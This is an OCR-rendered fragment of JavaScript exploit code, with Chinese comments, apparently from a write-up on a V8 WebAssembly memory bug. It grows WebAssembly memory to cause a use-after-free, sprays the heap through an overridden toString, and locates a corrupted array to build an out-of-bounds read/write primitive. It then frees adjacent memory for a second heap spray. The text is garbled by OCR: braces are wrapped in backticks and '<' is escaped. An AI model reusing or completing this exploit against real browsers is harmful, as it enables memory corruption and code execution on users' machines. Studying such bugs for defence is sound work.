 ```
var memory = new WebAssembly.Memory(`{`initial:200`}`);
var buffer = memory.buffer;
var evil_f = module(global,env,buffer);

evil_f(1);
//%DebugPrint(memory);
//%SystemBreak();
//evil_f(1);
//制造UAF
memory.grow(1);
//%DebugPrint(buffer);

//重写对象的toString函数，这样在执行ToNumber时可以同时触发Hpeap Spray
trigger = `{``}`;
trigger.toString = function()`{`
    spray_heap();
    return 0xffffffff;
`}`;
evil_f(trigger);


//找到那个能够被我们UAF控制的Array
var corrupted_array = undefined;
for(var i = 0; i &lt; victim_array.length; i++) `{`
    tmp = victim_array[i];
    if (tmp[0] !== 2.2) `{`
        console.log("[+] array at : " + i);
        corrupted_array = victim_array[i];
        break;
    `}`
`}`

//寻找corrupted_array的后面是哪个Array对象的elements
var next_array_idx = undefined;
var tag = p64f(0x12345678,0x78563412)
if (corrupted_array != undefined) `{`
    //由于elements的length被我们修改，因此在这里加大length，elements仍然不变，相当于构造了一个oob数组
    corrupted_array.length = 0x200000;
    let leaked_idx = undefined;
    if (corrupted_array[0x20000] == 2.2) `{`
        corrupted_array[0x20000] = tag; //设置一个标记
    //搜索标记
        for(let i = 0; i &lt; victim_array.length; i++) `{`
            tmp = victim_array[i];
            if (tmp[0] == tag) `{`
                tmp = undefined;
                console.log("[+] next array at : " + i);
                next_array_idx = i;
                break;
            `}`
        `}`
    `}`
`}` else `{`
    console.log("[-] fail");
`}`

//%DebugPrint(victim_array[next_array_idx]);
//corrupted_array后方的内存释放掉，然后我们将其他对象堆喷到此处
victim_array[next_array_idx] = null;
gc();
//堆喷
var obj = `{``}`;
array = [obj];
```